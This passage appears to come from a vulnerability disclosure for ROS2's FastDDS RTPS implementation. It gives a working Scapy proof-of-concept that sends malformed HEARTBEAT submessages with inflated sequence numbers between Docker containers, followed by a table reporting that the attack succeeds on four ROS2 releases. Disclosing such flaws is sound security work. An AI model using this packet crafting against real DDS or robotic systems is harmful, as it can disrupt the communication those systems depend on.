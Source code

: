 ## 4.1. POC (Proof of concept)

```python
from scapy.all import *
from scapy.contrib.rtps import *

# RTPS Header
class RTPS(Packet):
    name = "RTPS Header"
    fields_desc = [
        XIntField("magic", 0x52545053),  # RTPS in hex
        XByteField("major", 2),
        XByteField("minor", 3),
        XShortField("vendor_id", 0x010f),
        XIntField("hostId", 0x010feb7d),
        XIntField("appId", 0x9b0014a9),
        XIntField("instanceId", 0x00000000)
    ]
 

class RTPSSubMessage_HEARTBEAT(Packet):
    name = "RTPS HEARTBEAT"
    fields_desc = [
        XByteField("submessageId", 0x07),
        XByteField("flags", 0x01),
        XShortField("octetsToNextHeader", 0x1c00),
        X3BytesField("readerEntityIdKey", 0x000012),
        XByteField("readerEntityIdKind", 0x04),
        X3BytesField("writerEntityIdKey", 0x000012),
        XByteField("writerEntityIdKind", 0x03),
        LongField("firstAvailableSeqNumber", 0xf423f00),  # Use LELongField here
        LongField("lastSeqNumber", 0xf423f00),           # Use LELongField here
        XIntField("count", 0xf423f00)
    ]

for _ in range(2):  
	packet = Ether(src="02:42:ac:11:00:02" ,dst="02:42:ac:11:00:03") / \
		IP(src="172.17.0.2",dst="172.17.0.3") / \
		UDP(sport=33524, dport=7411) / RTPS() / RTPSSubMessage_HEARTBEAT()
	sendp(packet, iface="docker0")
```

## 4.2. Attack Outcome
- **QoS - `Reliable Pub/Sub`**
    - [Reliable Publisher] Talker → [Reliable Subscriber] Listener
      
|ROS2 Version|FastDDS|RMW - FastDDS|Attack Result|
|:---:|:---:|:---:|:---:|
|IRON|2.10.2-1|7.1.1-2|O|
|HUMBLE|2.6.6-1|6.2.3.1|O|
|GALACTIC|2.3.6-6|5.0.2-1|O|
|FOXY|2.1.4-1|1.3.2-1|O|
